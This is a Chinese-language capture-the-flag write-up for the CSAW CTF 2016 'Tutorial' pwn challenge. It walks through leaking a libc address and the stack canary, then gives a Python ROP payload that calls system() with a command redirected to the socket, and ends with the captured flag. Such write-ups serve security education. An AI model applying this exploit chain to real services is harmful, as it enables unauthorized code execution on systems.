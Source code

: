 # CSAW CTF 2016 Quals: Tutorial (Pwn, 200)


說明：
> Ok sport, now that you have had your Warmup, maybe you want to checkout the Tutorial.
>
> [tutorial](https://github.com/isislab/CSAW-CTF-2016-Quals/raw/master/Pwn/Tutorial/tutorial) [libc-2.19.so](https://github.com/isislab/CSAW-CTF-2016-Quals/raw/master/Pwn/Tutorial/libc-2.19.so)

## 解題

下載binary後的例行動作：

```
$ checksec tutorial
[*] '/workspace/csawctf/tutorial'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
```

這個binary用了*stack canary*和*NX bit*，要先找到canary value才能進行stack buffer overflow，而且因為NX bit也不能直接執行stack上的 shellcode。

先嘗試執行binary，即時得到個segfault：

```
(gdb) run
Starting program: /workspace/csawctf/tutorial

Program received signal SIGSEGV, Segmentation fault.
__GI_____strtol_l_internal (nptr=0x0, endptr=endptr@entry=0x0,
    base=base@entry=10, group=group@entry=0,
    loc=0x7ffff7bd0060 <_nl_global_locale>) at ../stdlib/strtol_l.c:298
298	../stdlib/strtol_l.c: No such file or directory.
```

用Hopper Disassembler反組譯這個binary，發現這個程式用argv[1]作為listening socket的port。

```
(gdb) run 9999
Starting program: /workspace/csawctf/tutorial 9999
User tutorial does not exist
accept: Bad file descriptor
```

執行`./tutorial 9999`沒有segfault，不過嘗試`nc localhost 9999`時會得到另一個錯誤，原來這個程式還要以*tutorial*用戶運行。在系統加入一個用戶應該就可以，不過我選擇用Hopper直接把這個檢查改為NOP，順手看見附近有一個alarm也NOP掉以免阻礙debug。這樣總算可以成功執行這個 binary：

```
$ nc localhost 9999
-Tutorial-
1.Manual
2.Practice
3.Quit
>1
Reference:0x7ffff7880860
-Tutorial-
1.Manual
2.Practice
3.Quit
>2
Time to test your exploit...
>AAAAA
AAAAA
@????x"???*e????-Tutorial-
1.Manual
2.Practice
3.Quit
>
```

選擇Manual會得到一個記憶位址，反組譯`func1`看到這個位址其實是`dlsym(0xffffffffffffffff, "puts")-0x500`，這是一個libc function的位址，有了這個位址就可以用return-to-libc方法去繞過*NX bit*的限制。

再看看Practice選項（`func2`）。

![func2](func2.png)

`func2`有三個stack variables：8 bytes stack canary，312 bytes buffer和4 byte的socket file descriptor。這個function從 socket讀取460 bytes寫進buffer，然後再由buffer讀324 bytes寫到socket。由於buffer只有 312 bytes，利用這個function就可以覆寫stack frame的return address取得control flow，因為它還會把buffer之後的12 bytes寫出來，我們還可以得到stack canary的值和上一個stack frame的`$rbp`的最低32 bits。

## Exploit

去到這裡，要怎樣exploit己經很清楚，先要用Manual選項取得libc address，從Practice選項讀取stack canary和stack base address，再一次用Practice選項覆寫stack frame的return address取得control flow，再引導去libc的`system()`取得shell。不過還有一個麻煩的地方，就是這個binary用socket進行IO，我們要把shell的stdin/stdout重定向到socket的file descriptor才可以看到output。

```
$ strace -f ./tutorial 9999
...
[pid  5304] write(4, "-Tutorial-\n", 11) = 11
...
```

從`strace`看到socket的file descriptor總是`4`。最先想到的辦法就是把`sh >&4 <&4`寫到buffer上作為`system()`的 argument。因為Manual選項洩漏了`$rbp`的最低32 bits，可以憑這個估算buffer的address，只要在libc裡找個`pop rdi`的ROP gadget把buffer address寫進`$rdi`（System V calling convention 的第一個 function parameter），再把`$rip`指到`system()`就可以了。可是執行起上來時發現不知道為什麼只有buffer的前7個character可用，連`cat *>&4`也不夠。隊友提議用`hd *>&4`，但伺服器好像沒有這個指令，之後在[two letter linux command](http://www.hioreanu.net/cs/two-letter-commands.html)裡發現`od`用得著。結果得到flag的八進制內容：

```
0000000 046106 043501 031573 051501 057531 030122 057520 030122
0000020 057520 030120 057520 030120 057520 052531 057515 052531
0000040 057515 044103 046525 041537 052510 076515 000012
...
```

這是 payload：

```python
payload = "od *>&4\0"
payload += 'A' * (312-len(payload))
payload += canary
payload += 'D' * 8
payload += p64(proc_open_addr + 0x1e7) # pop rdi; ret
payload += p32(buf_addr)
payload += p32(stack_base)
payload += p64(proc_open_addr + system_offset)
```

完整解答：[tutorial.py](tutorial.py)

這個方法其實不夠簡潔，更直接的做法是先用`dup2()`把`fd 4`複製到stdin/stdout，再行`system("/bin/sh")`，這樣就可以取得完整的shell，不過既然取到flag那就算了。

## Flag

```
FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}
```

## 其他解答

- https://github.com/ctfs/write-ups-2016/blob/master/csaw-ctf-2016-quals/Pwn/Tutorial-200/README.md
